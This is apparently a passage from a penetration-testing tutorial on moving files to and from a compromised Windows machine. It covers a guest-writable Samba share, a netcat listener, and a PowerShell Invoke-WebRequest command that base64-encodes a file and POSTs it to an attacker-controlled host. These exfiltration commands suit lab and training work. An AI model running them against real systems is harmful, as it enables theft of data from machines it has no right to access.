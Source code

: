 ```terminal
$ sudo mkdir -p /srv/smb/
```

Now go ahead and add the following line to the end of `/etc/samba/smb.conf`:

```text
[iwr]
  comment = Invoke-WebReq'd em? Damn near killed em!
  path = /srv/smb
  guest ok = yes
  browseable = yes
  create mask = 0600
  directory mask = 0755
```

Now start up Samba with `sudo systemctl start smbd`

> Note: This is an extremely wide-open share that anyone can write to! It's best to leave this service disabled and stop it when you're done using it.
{: .prompt-warning}

Now you can just copy to your server by a simple copy as before:

```terminal
PS > copy someFile.txt //10.10.10.10/iwr
```

If this doesn't work, there's more than one way to skin this cat. **DON'T FORGET TO STOP THE SAMBA SERVICE!**

#### Invoke-WebRequest ...and POST it!

This neat little trick I learned from Ippsec. When all else fails, you can always just base64 the data you want to copy over and send it as a POST request to your local machine. First, set up a netcat shell to output to a file:

```terminal
$ nc -lvnp 9090 > someFile.b64
```

Now on the remote windows box, base64 the data as mentioned above, and then use Invoke-WebRequest to send it via a POST:

```terminal
PS > $b64 = [Convert]::ToBase64String((Get-Content -Path .\path\to\someFile.exe -Encoding Byte))
PS > Invoke-WebRequest -URI http://10.10.10.10:9090 -Method POST -Body $b64
```

This will connect to your awaiting netcat shell, and it will output to the file `someFile.b64`, which will contain the base64'd data. If you open that file with an editor, _you will have to remove the HTTP headers from the top_, but once you do you should have your base64-encoded data. Now you can `iconv` it to UTF8 and decode it with the `base64` binary. There's your data!

#### Invoke-WebRequest is Always There For You

Of course if you're looking to move data from your local machine onto the target, you can always just stand up a webserver locally to host the file you'd want to retrieve and use `IWR` to pull it.
